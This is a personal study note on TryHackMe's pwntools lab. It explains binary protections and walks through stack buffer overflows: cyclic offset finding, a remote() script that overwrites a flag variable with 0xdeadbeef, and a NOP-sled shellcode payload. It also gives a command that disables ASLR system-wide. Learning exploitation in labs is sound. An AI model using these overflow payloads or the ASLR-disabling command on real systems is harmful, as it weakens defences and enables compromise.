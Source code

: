 
2024-06-24 19:44

Source: #tryhackme 

Tags: [[pwntools]] [[py]]

#### Checksec tool

##### RELRO
stands for Relocation Read-Only, which makes the global offset table (GOT) read-only after the linker resolves functions to it. The GOT is important for techniques such as the ret-to-libc attack you can refer to this blog post: [https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro).
##### Stack canaries 
are tokens placed after a stack to detect a stack overflow. stack canaries sit beside the stack in memory (where the program variables are stored), and if there is a stack overflow, then the canary will be corrupted. This allows the program to detect a buffer overflow and shut down. You can read more about stack canaries here: [https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/).
##### NX
is short for non-executable. If this is enabled, then memory segments can be either writable or executable, but not both. This stops potential attackers from injecting their own malicious code (called shellcode) into the program, because something in a writable segment cannot be executed. - [https://en.wikipedia.org/wiki/Executable_space_protection](https://en.wikipedia.org/wiki/Executable_space_protection)
##### PIE
stands for Position Independent Executable. This loads the program dependencies into random locations, so attacks that rely on memory layout are more difficult to conduct. Here is a good blog about this: [https://access.redhat.com/blogs/766093/posts/1975793](https://access.redhat.com/blogs/766093/posts/1975793)

#### Cyclic - for pattern generation

If you view the c code, you may notice the` print_flag() `function, which will open the flag with the permissions we need. The issue is that the function does not run in the program, the program simply calls start() then ends.

- This program is vulnerable to a buffer overflow, because it uses the `gets()` function, which does not check to see if the user input is actually in bounds (you can read about this [here](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351))
- An important part of the memory we can overwrite is the instruction pointer (`IP`), which is called the `eip` on 32-bit machines, and `rip` on 64-bit machines.
- To control the `IP`, the first thing we need do is to is overflow the stack with a pattern, so we can see where the IP is

- fire up `gdb` using `gdb file_name`
- To run a program in `gdb`, type `r`
- if you want to add an input from a text file, you use the "<" key, `r < alphabet`

If you have used `pattern_create` from the `Metasploit` Framework, this is works in a similar way. We can create a pattern file like this:

`cyclic 100 > pattern`

and then run the pattern file as input in `gdb`. We have a segmentation-fault and the `eip` is filled with '`jaaa`'

Our padding is the space we need to get to the `eip`, so 100 is not the number we need. We need our padding to stop right before '`jaaa`' so that we can fill in the `eip` with our own input. -> we use `cyclic_find` for this

for conversion of ascii to raw hex we can use `p32()` function (and `p64` for 64-bit programs) from `pwn`

to print the location of a function, a function that is written in the program but it isn't called by the main function    -    `print& print_flag` output from this code is used in place of `outie` in the below code 

```
from pwn import *
padding = cyclic(cyclic_find('jaaa'))
eip = outie
payload = padding + eip
print(payload)
```
#### Networking

Note from machine  - 
I'm running a service on port 1337, which has an overflow vulnerability. I've left you a version that will run on port 1336 so that you can develop your exploit. 

Code for this level is found in the references section 

The struct at the beginning of the function, called targets, has two variables: `buff` and `printflag`. The buff is a char array of size `MAX` (`MAX` was defined to `32`), and the `printflag` is a volatile `int`. These variables will be right next to each other in the stack, so if we manage to overflow the `buff` variable, then we can edit the `printflag`. If you see further down in the code, if the `printflag` variable is equal to `0xdeadbeef` (in hex) then it will send the flag

ln 2- a script to connect to the port, receive the data, and send our payload. To connect to a port in Pwntools, use the `remote()` function in the format of: `remote(IP, port).`

ln 3- We can receive data with either the `recvn(bytes)` or `recvline()` functions.
- The `recvn()` receives as many bytes as specified
- the `recvline()` will receive data until there is a newline. 
Our code does not send a newline, so we will have to use `recvn()`. In our `test_networking.c` code, the "Give me `deadbeef`: " is 18 bytes, so we will receive 18 bytes.

ln 4,5 - We have to send enough data to overflow the buff variable, and write to the `printflag`. the buff is a 32 byte array, so we can write some character 32 times to overflow buff, and then write our 0xdeadbeef to `printflag`.

ln 7- To receive our flag, We can just use `connect.recvn()` again. According to the `c` code, the flag will be 34 bytes long.

```
from pwn import *
connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))
```
#### Shellcraft

 ASLR, which stands for address space layout randomization. This randomizes where in memory the executable is loaded each time it is run. Like PIE, it makes attacks that rely on memory layout more difficult.
 in order to disable [[ASLR]] we can run the following with sudo 
```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

executable code from machine - 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void start(){
        char input[64];
        gets(input);
}

// If we view the code for our executable, we see there is not much, just a call of //gets(). If we remember from our cyclic task, gets() is vulnerable to buffer overflow, // but this time, there is no print_flag() to jump to. When we control the eip, where  // should we jump to?

int main(){
        printf("Hello There. Do you have an input for me?\n");
        start();

}
```
Although there does not seem to be any useful instructions inside our code, what if we wrote our own instructions? Our variables are stored in memory, just like the program itself, so if we write instructions in our variable, and direct the `eip` to it, we can make the program follow our own instructions! This injected code is called shellcode, because it is traditionally (but not always) used to spawn a shell. If you recall, our variables are stored in the stack, so if we direct the `eip` to the stack, we will direct it to our shellcode.

- Once we control the `eip`, we need to direct it to the stack where we can place our own code. The top of the stack is pointed to by the `SP` (or stack pointer) which is called `esp` in 32-bit machines.  
- If we want to jump to our shellcode, we want to jump to the middle of the stack (rather than the top where the SP points), so we usually add an offset to the `esp` location in your exploit.
- I use an offset of 200, because that's what ended up working for me. In other challenges, you may only need an offset of 8 or 16. I have found that choosing the right offset is a matter of trial and error.

```
from pwn import *
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd52c+200)
nop_slide = "\x90"*1000
shellcode = "\xcc"
payload = padding + eip + nop_slide + shellcode
print(payload)
```

You may be wondering how we are going to point the eip to our shellcode (rather than other data in the stack), and the answer is to make our variable into a big landing spot. There is an instruction in assembly called no-operation (or NOP), which is 0x90 in hex, and the NOP is a space holder that passes the eip to the next space in memory. If we make a giant "landing pad" of NOPs, and direct the eip towards the middle of the stack, odds are that the eip will land on our NOP pad, and the NOPs will pass the eip down to eventually hit our shellcode. This is often called a NOP slide (or sled), because the eip will land in the NOPs and slide down to the shellcode. Before we write our shellcode, we can inject a breakpoint at the end of our NOP slide to make sure the slide works. The breakpoint instruction in hex is "0xcc", and so we can add the following to our code:

The command line command for `shellcraft` is: `shellcraft arch.OS.command`

```
$ shellcraft i386.linux.sh -f a
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    ....
```

### References

[TryHackMe | Intro To Pwntools](https://tryhackme.com/r/room/introtopwntools)

codes - [IntroToPwntools/pwn_network.py at main · dizmascyberlabs/IntroToPwntools · GitHub](https://github.com/dizmascyberlabs/IntroToPwntools/blob/main/pwn_network.py)

walkthrough - [gitbook-tryhackme/walkthroughs/easy/intro-to-pwntools.md at master · shoulderhu/gitbook-tryhackme · GitHub](https://github.com/shoulderhu/gitbook-tryhackme/blob/master/walkthroughs/easy/intro-to-pwntools.md)

**shellcraft** - 
You may have heard of the [heap buffer overflow vulnerability in sudo](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156) which allowed for quick privilege escalation. The exploit, discovered in 2021, has its own [room on TryHackMe](https://tryhackme.com/room/sudovulnssamedit) if you are interested in learning more about it.